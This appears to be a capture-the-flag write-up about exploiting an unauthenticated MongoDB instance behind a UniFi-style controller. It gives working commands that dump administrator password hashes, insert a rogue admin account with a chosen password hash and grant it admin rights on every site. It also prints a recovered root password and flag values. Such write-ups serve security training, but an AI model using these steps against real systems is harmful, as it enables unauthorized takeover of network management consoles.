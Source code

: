 USER.TXT: 6ced1a6a89e666c0620cdb10262ba127

We can exploit MongoDB because there's no auth required.<br>
Mongo is running on port 27117

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
ace is the default user in mong

ADMIN USER<br>
"_id" : ObjectId("61ce278f46e0fb0012d47ee4")<br>
"name" : "administrator"<br>
"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."

```
mkpasswd -m sha-512 IH4ckU!
```

MY PASSWORD HASH: $6$fzKtdHx13KNCSQU3$GBpqsnsRs7bVfZkteABRLoItPAMOB.cge/fUVpMSJToCkJHkd4HpBdQ7O6iS/0giAnFiQT1CCx7XHI6pDG7.9.

Create my user:
```
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "ark", "time_created" : NumberLong(100019800), "x_shadow" : "$6$fzKtdHx13KNCSQU3$GBpqsnsRs7bVfZkteABRLoItPAMOB.cge/fUVpMSJToCkJHkd4HpBdQ7O6iS/0giAnFiQT1CCx7XHI6pDG7.9." })'

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

MY USER<br>
"_id" : ObjectId("62e8427c3fd88e3ed01f3176")<br>
"name" : "ark"<br>
"x_shadow" : "$6$fzKtdHx13KNCSQU3$GBpqsnsRs7bVfZkteABRLoItPAMOB.cge<br>/fUVpMSJToCkJHkd4HpBdQ7O6iS/0giAnFiQT1CCx7XHI6pDG7.9."

```
mongo --port 27117 ace --eval "db.site.find().forEach(printjson);"
```

SITE OID:<br>
"_id" : ObjectId("61ce269d46e0fb0012d47ec4")<br>
"_id" : ObjectId("61ce269d46e0fb0012d47ec5")

Elevate privileges for my user for all site id:
```
mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "62e8427c3fd88e3ed01f3176", "permissions" : [ ], "role" : "admin", "site_id" : "61ce269d46e0fb0012d47ec4" });'

mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "62e8427c3fd88e3ed01f3176", "permissions" : [ ], "role" : "admin", "site_id" : "61ce269d46e0fb0012d47ec5" });'
```

USER: root<br>
PASSWORD: NotACrackablePassword4U2022

FLAG: e50bc93c75b634e4b272d2f771c33681
